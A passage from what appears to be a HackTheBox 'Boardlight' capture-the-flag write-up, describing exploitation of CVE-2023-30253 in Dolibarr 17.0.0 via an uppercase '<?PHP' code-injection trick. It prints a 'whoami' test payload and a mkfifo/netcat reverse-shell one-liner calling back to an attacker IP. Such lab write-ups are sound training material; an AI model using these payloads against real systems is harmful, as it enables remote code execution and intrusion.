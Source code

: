 ![Foothold-Admin_Dashboard](../../../Materials/HackTheBox/Machines/Easy/Boardlight/Foothold-Admin_Dashboard.png)  


*We research vulnerabilities related to Dolibarr version 17.0.0 and discover **CVE-2023-30253**.*

> [!NOTE]
> 
> This vulnerability states that Dolibarr versions before 17.0.1 allow remote code execution by an authenticated user through an uppercase manipulation, using `<?PHP `instead of `<?php` in injected data.
> 

*We create a new page on the site, injecting a PHP payload to run the `whoami` command:*

*To exploit this, we first need to create a new website and inject PHP code into one of the pages we create. We then embed our PHP code here to run `whoami` on the target*

```php
--------------------------------------------------------------------------------------------------------------------------
								Website interface

<?PHP echo system("whoami");?>

# Previewing the code print the output of the payload on the website
www-data wwww-data
```
*After injecting the payload, we see the output `www-data`, indicating the user under which the web server is running.*

### 5. Reverse Shell Exploitation
*We modify our PHP payload to spawn a reverse shell by using Netcat:*

```@php
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9000 >/tmp/f");?>
```

*On our attacking machine, we start a Netcat listener on port 9000 to catch the incoming connection.*
